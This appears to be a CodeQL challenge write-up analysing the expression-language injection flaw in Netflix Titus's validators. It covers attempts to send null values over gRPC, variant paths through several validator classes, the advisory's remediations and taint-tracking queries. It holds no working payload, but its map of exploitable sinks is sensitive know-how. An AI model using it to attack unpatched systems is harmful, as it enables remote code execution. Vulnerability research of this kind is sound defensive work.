
I also modified the titus_job_api.proto file to allow null values after reading [this article](https://itnext.io/protobuf-and-null-support-1908a15311b6). But that didn't work either.

If this was a bloomrpc related quirk, one last thing that could work was to set up a Java gRPC Client and see if `null` values get sent. I built the existing `titus-toolkit` module from `titus-control-plane` which has a command line tool which uses the gRPC protocol. However it takes a JSON file as input and gives the same error above (Map value cannot be null) while parsing it. While JSON might not support null map values, I was sure that gRPC would support through the existing [NullValue](https://developers.google.com/protocol-buffers/docs/reference/java/com/google/protobuf/NullValue.html#NULL_VALUE) enum - so I modified the value after the `null` check at [JsonFormat.java](https://chromium.googlesource.com/external/github.com/google/protobuf/+/HEAD/java/util/src/main/java/com/google/protobuf/util/JsonFormat.java#1689) while debugging so that the gRPC client would be able to atleast initialize the `JobDescriptor` with this `null` field. The client was still throwing exceptions - for which I had to dynamically change the `type` of the `NullValue` to [WireFormat.FieldType.ENUM](https://developers.google.com/protocol-buffers/docs/reference/java/com/google/protobuf/WireFormat.FieldType.html#ENUM) at a bunch of places like [here](https://chromium.googlesource.com/external/github.com/google/protobuf/+/HEAD/java/core/src/main/java/com/google/protobuf/FieldSet.java#649) (since `NullValue` is an ENUM). Even after doing all that - the attributes map that the client sent ended up being parsed as not being `null` : (this output is from the modified code from earlier):
```
{Validation failed: 'field: 'attributes', description: '[test, titus.noncompliant.details.disruptionBudget.legacyMigration, titus.noncompliant.features][|||][][|||][]', type: 'HARD''}
```
Ah well, atleast i tried. While not exploitable, this variant has already been [patched](https://github.com/Netflix/titus-control-plane/pull/795/files#diff-1a6ca8a3264ffef35b4adbb088ffd455R95). 

Going through the patch, there are other variants that the query did not catch - ones in NeverNullValidator, SpELFieldValidator and SpELClassValidator. 

NeverNullValidator: any Class annotated with `@ClassFieldsNotNull` triggers this path. These include classes like Container, JobDescriptor which have user-controllable attributes. If a field has value `null` then the evaluated EL inside the sink contains the name of that field.

SpELClassFieldValidator does not have the call to the vulnerable sink function: `buildConstraintViolationWithTemplate` (This explains why in step 1.1 there were 6 sources but in step 1.2 there were only 5 sinks). 

SpELClassValidator has EL expressions as the String sent to the sink function. These are set as part of the `@ClassInvariant` annotation like `@ClassInvariant(condition = "!desired.isPresent() || desired.get() >=0", message = "'desired'(#{desired}) must be >= 0")`. The user-controlled part is therefore limited and I could not find any exploitable instances in the codebase.

While maybe not expliotable - I decided to write an _exploratory_ query which would catch all these 5 (6th doesn't have the sink) tainted paths - stepping through lambda expressions and Java Reflection APIs:

Query: [4-2-more-variants.ql](queries/4-2-more-variants.ql) 


The remediations suggested in the [Advisory](https://securitylab.github.com/advisories/GHSL-2020-028-netflix-titus) and how they are handled:
| Remediation | Handling |
|---|---|
| Do not include validated bean properties in custom error messages  | There will be no flow to the sink in this case  |
| Sanitize the validated bean properties to make sure that there are no EL expressions. An example of valid sanitization logic can be found here.  | This has been the remediation made for netflix-titus and the query no longer flags the issue for the patched code (as can be seen in step 4.1)  |
| Disable the EL interpolation and only use ParameterMessageInterpolator  | The query flags paths which flow into `ConstraintValidatorContext.buildConstraintViolationWithTemplate` only |
| Replace Hibernate-Validator with Apache BVal which in its latest version does not interpolate EL expressions by default. Note that this replacement may not be a simple drop-in replacement.  | The query flags paths which flow into `ConstraintValidatorContext.buildConstraintViolationWithTemplate` only  |

## Step 1-1-Bonus
I modified the query from Step 2 to add checks for user-controllable fields as sources:

Query: [1-1-bonus.ql](queries/1-1-bonus.ql)

The logic I used was: if any fields (recursively) of a user-controllable object are annotated with the validating annotations then the source would be the ParameterNode at the constructor for that field. I also added additional data-flow steps to account for flow through annotated fields.
Quick eval gives the 3 user-controllable results - which is as expected since the exploit EL expression gets evaluated through these fields:


I also added additional-taint steps so that the full query (not just quick-eval) can flag tainted paths:
